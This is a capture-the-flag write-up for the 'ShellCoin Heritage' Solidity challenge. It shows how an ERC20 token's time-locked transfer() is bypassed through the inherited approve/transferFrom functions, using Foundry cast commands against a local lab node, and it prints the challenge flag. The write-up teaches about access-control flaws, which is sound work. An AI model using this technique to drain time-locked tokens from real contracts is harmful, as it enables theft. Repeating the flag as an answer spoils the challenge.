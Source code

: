 # ShellCoin Heritage Write-up

In this challenge, the will executor (aka the player) is given the `INITIAL_SUPPLY` of the contract (133713371333337 SHC), but can't transact them before 30 years has passed since the deployment of the contract.
The contract is overriding the `transfer()` function of the ERC20 specification by adding two modifers to it:
#### onlyExecutor: 
Which shouldn't cause a problem after calling `hireExecutor()`.
#### itsTherightTime:
Which checks if 30 years has passed since grandpa's passing (setting `grandpaPassingTime` in the constructor to `block.timestamp` means that it will hold the time in which the contract was deployed in).


But I guess you're familiar with OOP. Solidity, as any other Object Oriented Programming language, supports the notion of Inheritance.
By defining ShellCoin contract using the keyword `is ERC20`, Solidity compiler copies the base contract bytecode into derived contract bytecode, and any external and public methods or variables declared in the parent contract, will be inherited by the child contract and can be viewed or called through it.


If you check the code of ERC20.sol, you'll see that the `transfer()` function is not the only way to transfer tokens. `transferFrom()`, is a function in the ERC20 implementation that is also used to transfer tokens. The difference between it and between `transfer()` is that it allows an arbitrary sender to transfer an amount of tokens to a recipient on behalf of the owner, but he must be approved first to do so ,even if it's the owner himself (or itself if the owner is a contract xD)

## Putting it into practice:
Now enough theory, and let's dive in the solution:
- First, let's get our target contract address:
```bash
$cast call 0xA59e24aA79DdBFda2BDC740486f71a52b706E3Ea "TARGET()" --rpc-url http://localhost:8545/b51b927e-eba2-47fc-b7a7-3c76eb917217
0x0000000000000000000000005dedd5e68d4ed21760632be9a261ed57d4fa0dc6
```
  The target address is `0x5dedd5e68d4ed21760632be9a261ed57d4fa0dc6`. (Yours will be different of course)

- And then, let's call `hireExecutor()` to set ourselves as the willExecutor.
```bash
$cast send 0x5dedd5e68d4ed21760632be9a261ed57d4fa0dc6 "hireExecutor()" --private-key 0x8915d18a018cbce081c93ad075da1de18d776f347a0be058a797cc603187d55a --rpc-url http://localhost:8545/b51b927e-eba2-47fc-b7a7-3c76eb917217
```
- If you check the Setup.sol contract you'll see that the goal is to transfer all the available tokens to an external address `0xAf57Ac75f227363bB9D4d61872d81DE340BCc395`.
- So we must approve ourselves to transfer that amount of tokens, we do that by either:
```bash
$cast send 0x5dedd5e68d4ed21760632be9a261ed57d4fa0dc6 "increaseAllowance(address,uint256)" 0x34dA3791EE0a869Fa2E53Ff525aaAB0AD0c86822 133713371333337 --private-key 0x8915d18a018cbce081c93ad075da1de18d776f347a0be058a797cc603187d55a --rpc-url http://localhost:8545/b51b927e-eba2-47fc-b7a7-3c76eb917217
```
Or:
```bash
$cast send 0x5dedd5e68d4ed21760632be9a261ed57d4fa0dc6 "approve(address,uint256)" 0x34dA3791EE0a869Fa2E53Ff525aaAB0AD0c86822 133713371333337 --private-key 0x8915d18a018cbce081c93ad075da1de18d776f347a0be058a797cc603187d55a --rpc-url http://localhost:8545/b51b927e-eba2-47fc-b7a7-3c76eb917217
```
- And Lastly, we transfer the tokens to the specifed address:
```
$cast send 0x5dedd5e68d4ed21760632be9a261ed57d4fa0dc6 "transferFrom(address,address,uint256)" 0x34dA3791EE0a869Fa2E53Ff525aaAB0AD0c86822 0xAf57Ac75f227363bB9D4d61872d81DE340BCc395 133713371333337 --private-key 0x8915d18a018cbce081c93ad075da1de18d776f347a0be058a797cc603187d55a --rpc-url http://localhost:8545/b51b927e-eba2-47fc-b7a7-3c76eb917217
```
- Now we're ready to get our flag.

## Flag:
`shellmates{the_CONTrACT_1nheRiT3d__4nD_ThE_GR4nDSOn_d1D_n0t__th4T$_1mProPer_acCes$_c0nTRoL}`